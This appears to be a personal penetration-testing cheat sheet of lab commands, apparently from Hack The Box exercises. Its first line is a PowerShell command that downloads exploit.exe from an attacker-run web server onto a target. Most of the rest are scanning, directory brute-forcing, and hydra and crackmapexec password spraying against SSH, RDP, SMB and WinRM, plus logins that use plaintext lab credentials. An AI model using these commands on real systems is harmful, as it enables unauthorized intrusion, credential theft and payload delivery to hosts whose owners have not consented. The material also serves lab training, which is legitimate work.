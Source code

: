 # sheet sheat

```shell
invoc file with powershell after created a python server ( python3 -m http.server) powershell "(new-object System.Net.WebClient).Downloadfile('[http://10.10.14.17:8000/exploit.exe](http://10.10.14.17:8000/exploit.exe)', 'exploit.exe')"

nmap -sC -sV -Pn -oA nmap/bounty 10.10.10.93

nmap -sC -sV -p- -T5 10.129.37.123

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://eforenzics.htb/assets/FUZZ.jpg

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://eforenzics.htb/assets/FUZZ.jpg -mc all -fs 0,16 -c 404


gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://eforenzics.htb/assets/imgs/


gobuster --url [http://10.10.10.93](http://10.10.10.93/)/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50

gobuster --url [http://10.10.10.93/](http://10.10.10.93/) dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x aspx

netstat -antp | grep -i list


```shell
crackmapexec winrm 10.129.252.193 -u username.list -p password.list

hydra -L username.list  -P password.list -u -f ssh://10.129.252.193:22 -t 4

rdesktop -u john -p november 10.129.252.193

evil-winrm -i 10.129.252.193 -u john -p november

ssh dennis@10.129.252.193 

hydra -L username.list  -P password.list -u -f rdp://10.129.252.193

hydra -L username.list  -P password.list -u -f smb://10.129.252.193

crackmapexec smb 10.129.252.193 -u username.list -p password.list

rdesktop -u chris -p 789456123 10.129.252.193

crackmapexec smb 10.129.42.197 -u "john" -p "november" --shares

smbclient -U john \\\\10.129.252.193\\

crackmapexec smb 10.129.42.197 -u "john" -p "november" --shares

crackmapexec smb 10.129.42.197 -u "john" -p "november"

crackmapexec smb 10.129.42.197 -u "cassie" -p "12345678910" --shares

crackmapexec smb 10.129.42.197 -u "chris" -p "789456123" --shares

crackmapexec smb 10.129.252.193 -u "cassie" -p "12345678910" --shares

smbclient -U cassie \\\\10.129.252.193\\CASSIE
```

```
